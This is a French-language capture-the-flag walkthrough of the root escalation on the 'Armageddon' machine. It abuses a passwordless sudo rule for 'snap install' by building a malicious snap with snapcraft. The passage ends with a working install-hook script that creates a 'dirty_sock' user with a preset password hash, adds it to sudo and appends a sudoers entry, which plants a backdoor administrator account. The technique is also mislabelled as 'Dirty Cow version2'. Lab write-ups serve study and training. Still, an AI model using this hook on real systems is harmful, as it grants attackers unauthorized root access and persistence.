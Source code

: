 ```
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Nous pouvons donc installer des paquets avec `snap`.

Essayons d'installer un paquet.

> sudo snap install python3

```
[brucetherealadmin@armageddon ~]$ sudo snap install python3
error: unable to contact snap store
```

On voit que nous n'avons pas accès à Internet, nous allons donc devoir utiliser notre machine hôte pour build des paquets `.snap` et les importer sur la machine cible.

Nous allons utiliser `snapcraft` pour build des paquets sur notre machine hôte, et nous utiliserons la faille `Dirty Cow version2`.

Installons snapcraft.

> snap install snapcraft

Maintenant, nous pouvons initialiser notre paquet.

```
snapcraft init
Created snap/snapcraft.yaml.
Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.
```

Il va nous falloir créer un dossier `hook` et un fichier `install` dans ce dernier, qui sera exécuter lors de l'installation du paquet, ce dernier contiendra les instructions pour créer un utilisateur en bash et lui donner les droits sudo.

> mkdir snap/hooks
> touch snap/hooks/install
> chmod a+x snap/hooks/install

Ouvrer le fichier `install` puis inséré le code suivant.

```bash
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
